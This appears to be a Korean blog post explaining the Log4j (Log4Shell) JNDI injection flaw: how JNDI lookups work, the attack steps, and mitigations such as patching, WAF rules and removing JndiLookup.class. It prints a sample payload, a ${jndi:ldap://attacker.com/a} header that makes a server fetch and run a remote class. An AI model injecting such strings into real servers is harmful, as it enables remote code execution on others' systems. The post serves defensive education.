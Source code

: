   ```log.info("User-Agent : {}",request.getHeader("X-Api-version"));```{: .notice--info}


## [JNDI]
![img](https://user-images.githubusercontent.com/33647663/148901381-40cd0351-c9bf-4056-8926-c2b9ca493560.png)

JNDI(Java Naming and Directory Interface)는 클라이언트가 이름을 통해서 데이터와 개체를 검색하고 조회할 수 있도록 하는 Java API입니다. 즉 자바에서 다른 디렉터리 서비스
RMI(Remote Method),CORBRA(Common Object Request Broket Architecture), LDAP(Lightweight Directory Access Protocol),DNS(Domain Name Service)에 접근하여 수정하거나, 개체를 불러오는 것을 지원하는 것입니다.

이번에 log4j에서 문제가 된 부분은, 이러한 Jndi Lookup을 할때, 대상 서버에 대한 검증을 하지 않아서 안전하지 않은 서버로부터 자바 클래스 파일을 내려 받아 실행할 수 있기 때문입니다.

그리고 그 중 가장 많이 사용된 디렉터리 서비스는 LDAP 서비스입니다.


## [공격 방식]
- 공격 과정을 그림으로 나타내면 다음과 같습니다.
  ![image](https://user-images.githubusercontent.com/33647663/148883148-e96058bd-2722-402f-9c44-daa53649f841.png)

1. 공격자는 **JNDI Injection**을 일으키기 위해서 **User-Agent** 정보에 JNDI 쿼리를 작성합니다.<br>

   ```md
   User-Agent: ${jndi:ldap://attacker.com/a}
   ```
2. 취약한 서버에서는 log4j 로깅 과정에서 ldap 쿼리가 실행되게 되어서 공격자의 ldap 서버로 쿼리를 하게 됩니다.
  
   ```md
   log.info("User-Agent : ${jndi:ldap://attacker.com/a}");
   ``` 
3. 공격자의 ldap 서버에서는 주어진 쿼리에 대해서 악성 java 클래스의 위치가 담긴 ldap response 를 보내게 됩니다. 위의 그림에서라면, 취약한 서버로 Exploit.class파일의 경로가 전달되게 되며, 해당파일의 경로는 "**http://attacker.com/Exploit.class**"입니다.

4. 취약한 웹서버는 http://attacker.com/Exploit.class파일을 다운받고 해당 클래스 파일이 실행되며, RCE가 가능하게 됩니다.


## [문제 해결]
다음 그림은 [스위스 정부](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)에서 만든 log4j 취약점을 막는 방법입니다. 패치를 진행하여 해결하는 방법이 가장 안전하겠지만, 불가능 하다면 다른 대안을 통해서 임시적으로 방어를 할 수 있습니다.

![image](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/assets/log4j_attack.png)

- 웹 방화벽(WAF)의 [탐지룰](https://rules.emergingthreatspro.com/open/suricata-5.0/rules/emerging-exploit.rules)을 통한 차단
  - 공격 패턴을 방화벽 단에서 미리 차단할 수 있지만 우회가능성이 높습니다.
  - 내부 시스템 환경에 따라서 정책을 수정해서 사용해야 합니다.

- 취약한 버전의 log4j를 업데이트
  - 2.15.0 버전 이후에는 lookup 동작이 기본적으로 비활성화 되어 있으며, 2.16.0이후 부터는 이 기능이 완전히 제거 되었습니다.

- JNDI Lookup 기능을 제거
  - [CVE-2021-44228, CVE-2021-45046] : log4j 2.0-beta9 ~ 2.15.0 이하<br>```zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class```
  -  log4j2.formatMsgNoLookups를 true로 설정
  -  [CVE-2021-4104] : log4j 1.x 버전<br>JMSAppender 기능 제거
-  Log4J 를 사용하지 않음
